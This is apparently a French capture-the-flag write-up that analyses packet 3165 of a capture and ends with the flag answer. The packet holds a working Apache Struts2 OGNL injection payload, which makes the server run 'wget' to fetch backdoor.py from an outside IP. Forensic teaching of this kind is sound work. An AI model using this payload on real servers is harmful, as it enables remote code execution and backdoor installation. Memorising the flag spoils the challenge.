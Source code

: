 
![bibliotheque_4](bibliotheque_4.png)

## Résolution

Dans le paquet 3165 : 
`Qlabel=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().getWriter().write((new freemarker.template.utility.Execute()).exec({"wget https://182.121.42.87/backdoor.py"}))`

Il télécharge un fichier `backdoor.py` depuis l’ip `182.121.42.87`.

Il ne reste plus qu’à identifier le pays à partir de l’IP.

>[!question]- Spoiler du flag
> OPENNC{backdoor.py_Chine}


